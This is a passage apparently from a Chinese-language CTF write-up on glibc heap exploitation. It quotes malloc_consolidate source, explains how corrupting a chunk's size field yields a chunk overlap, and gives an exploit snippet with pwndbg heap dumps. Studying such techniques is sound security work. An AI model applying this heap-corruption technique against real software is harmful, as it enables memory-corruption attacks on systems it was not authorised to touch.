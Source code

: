 ```

    /*
      Remove each chunk from fast bin and consolidate it, placing it
      then in unsorted bin. Among other reasons for doing this,
      placing in unsorted bin avoids needing to calculate actual bins
      until malloc is sure that chunks aren't immediately going to be
      reused anyway.
    */

    maxfb = &amp;fastbin (av, NFASTBINS - 1);
    fb = &amp;fastbin (av, 0);
    do `{`
      p = atomic_exchange_acq (fb, 0);

      ...

    `}` while (fb++ != maxfb);
  `}`
  else `{`
    malloc_init_state(av);
    check_malloc_state(av);
  `}`
`}`
```

可以看到`malloc_consolidate`操作是从小的`fastbin`开始，然后逐渐转向大的，使他们都合并成`unsorted bin`，如果我们先把`size`的尾巴踩掉，使得该`unsorted bin`和后面的chunk`断片`，然后在申请一块较小的chunk，那么`malloc_consolidate`时，这块较小的chunk，会优先放入`unsorted bin`中，然后在合并后面断片的chunk时，`就会直接unlink`进行合并，那么我们就可以利用中间的chunk来进行 `chunk overlap` 的操作了。

```
add(0x58, 0, 'a' * 0x50 + p64(0x61))
add(0x18, 1, 'n')
add(0x50, 2, 'n')
add(0x48, 3, 'n')
remove(1)
remove(5)
add(0x48, 5, 'n')
sh.sendlineafter('choice &gt;&gt; n', '0' * 0x400)
```

合并之前的情况如下：

```
pwndbg&gt; bin
fastbins
0x20: 0x55f4dccbe060 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x55f4dccbe1e0 ◂— 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x30: 0x55f4dccbe130 —▸ 0x7f9325fd5b98 (main_arena+120) ◂— 0x55f4dccbe130
largebins
empty
pwndbg&gt; x/4gx 0x55f4dccbe060
0x55f4dccbe060:    0x0000000000000061    0x0000000000000021
0x55f4dccbe070:    0x0000000000000000    0x00007f9325fd5b78
pwndbg&gt; x/4gx 0x55f4dccbe1e0
0x55f4dccbe1e0:    0x0000000000000180    0x0000000000000060
0x55f4dccbe1f0:    0x0000000000000000    0x0000000000000000
pwndbg&gt;
```